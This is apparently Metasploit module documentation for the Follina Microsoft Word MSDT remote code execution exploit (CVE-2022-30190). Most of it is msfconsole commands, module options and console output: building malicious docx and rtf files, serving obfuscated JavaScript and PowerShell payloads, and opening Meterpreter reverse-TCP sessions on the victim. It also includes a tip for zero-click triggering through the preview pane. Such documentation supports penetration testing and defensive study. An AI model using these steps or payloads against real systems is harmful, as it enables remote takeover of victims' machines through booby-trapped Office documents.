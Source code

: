 There exists a vulnerability in Microsoft Word that leverages the remote template feature to achieve remote code
execution against the target.

The vulnerability came to light after an independent cyber-security research team known as `nao_sec` uncovered a Word
document ([05-2022-0438.doc](https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/)) that was uploaded to
VirusTotal from an IP address in Belarus.

The document uses the remote template feature to fetch an HTML document and then uses the `ms-msdt` scheme to execute
PowerShell code.

## Vulnerable Application

The vulnerability has been found in Office 2013, 2016, 2019, 2021, Office ProPlus and Office 365. It also applies to
Windows itself, e.g. it can be called from `.lnk` files and with `wget` into `PowerShell`.

The vulnerability is exploitable using `.RTF` files on all versions of Office 365, including current channel.

However, with Insider and Current builds of Office, it doesn't seem to work.

### Make your lab

You need an official version of Microsoft Office installed.

Tested on Microsoft Windows 10 1909 with Microsoft Office Word 2016.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/word_msdtjs_rce`
3. `set SRVHOST [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**CUSTOMTEMPLATE**

A DOCX file that will be used as a template to build the exploit.

**OBFUSCATE**

Obfuscate JavaScript content. Default: true

**URIPATH**
The URI for the callback to get the payload.  Testing suggests this must be ANSI compatible and the full URI must be less than 76 characters.

## Scenarios

### Basic use

1. Generate the exploit for docx as following.

```
[*] Started reverse TCP handler on 172.20.32.36:4444 
[*] Using URL: http://172.20.32.36:8080/1GWqOqp7e1
[*] Server started.
[*] Generate a malicious docx file
[*] Using template '/tmp/payload.docx'
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: [Content_Types].xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/[REDACTED]/.msf4/local/msf.docx
[*] Powershell command length: 3724
```

2. Open the DOCX document on a remote vulnerable system.

```
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200262 bytes) to 172.20.32.36
[*] Meterpreter session 1 opened (172.20.32.36:4444 -> 172.20.32.36:42674 ) at 2022-05-30 19:32:37 +0400
```

### The 0-Click tip

You can get the 0-click by either selecting the 'rtf' option in converting, manually, the `.docx` file generated by the module into a `.rtf` file format.

### RTF 

1. Generate the exploit for rtf as following.
```
msf6 exploit(windows/fileformat/word_msdtjs_rce) > show options

Module options (exploit/windows/fileformat/word_msdtjs_rce):

Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
CUSTOMTEMPLATE                   no        A DOCX file that will be used as a template to build the exploit.
FILENAME        msf.docx         no        The file name.
OBFUSCATE       true             yes       Obfuscate JavaScript content.
OUTPUT_FORMAT   docx             yes       File format to use [docx, rtf]. (Accepted: docx, rtf)
SRVHOST         10.5.135.101     yes       The local host or network interface to listen on. This must be an address on the loca
l machine or 0.0.0.0 to listen on all addresses.
SRVPORT         8080             yes       The local port to listen on.
SSL             false            no        Negotiate SSL for incoming connections
SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
URIPATH                          no        The URI to use for this exploit (default is random)


Payload options (windows/x64/meterpreter/reverse_tcp):

Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port


Exploit target:

Id  Name
   --  ----
0   Microsoft Office Word


msf6 exploit(windows/fileformat/word_msdtjs_rce) > set filename test.rtf
filename => test.rtf
msf6 exploit(windows/fileformat/word_msdtjs_rce) > set output_format rtf
output_format => rtf
msf6 exploit(windows/fileformat/word_msdtjs_rce) > set lhost 10.5.135.101
lhost => 10.5.135.101
msf6 exploit(windows/fileformat/word_msdtjs_rce) > set verbose true
verbose => true
msf6 exploit(windows/fileformat/word_msdtjs_rce) > set disablepayloadhandler false
disablepayloadhandler => false
msf6 exploit(windows/fileformat/word_msdtjs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.5.135.101:4444
[*] Using URL: http://10.5.135.101:8080/7eIbCn81aas277
[*] Server started.
[*] Generating a malicious rtf file
[+] test.rtf stored at /home/tmoose/.msf4/local/test.rtf
msf6 exploit(windows/fileformat/word_msdtjs_rce) > [*] Powershell command length: 3718
```

2. Upload rtf file to remote host, make sure 'preview' is enabled, and click on the file.  (You don't need to open it, just click once to preview it)

```
[*] 10.5.132.101     word_msdtjs_rce - Sending HTML Payload
[*] 10.5.132.101     word_msdtjs_rce - Obfuscate JavaScript content
[*] 10.5.132.101     word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200774 bytes) to 10.5.132.101
[*] Meterpreter session 1 opened (10.5.135.101:4444 -> 10.5.132.101:51221) at 2022-08-17 10:56:01 -0500

msf6 exploit(windows/fileformat/word_msdtjs_rce) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
```

## References

  1. <https://www.reddit.com/r/blueteamsec/comments/v06w2o/suspected_microsoft_word_zero_day_in_the_wild/>
  2. <https://twitter.com/nao_sec/status/1530196847679401984?t=3Pjrpdog_H6OfMHVLMR5eQ&s=19>
  3. <https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/>
  4. <https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e>
  5. <https://twitter.com/GossiTheDog/status/1531608245009367040>
  6. <https://github.com/JMousqueton/PoC-CVE-2022-30190>

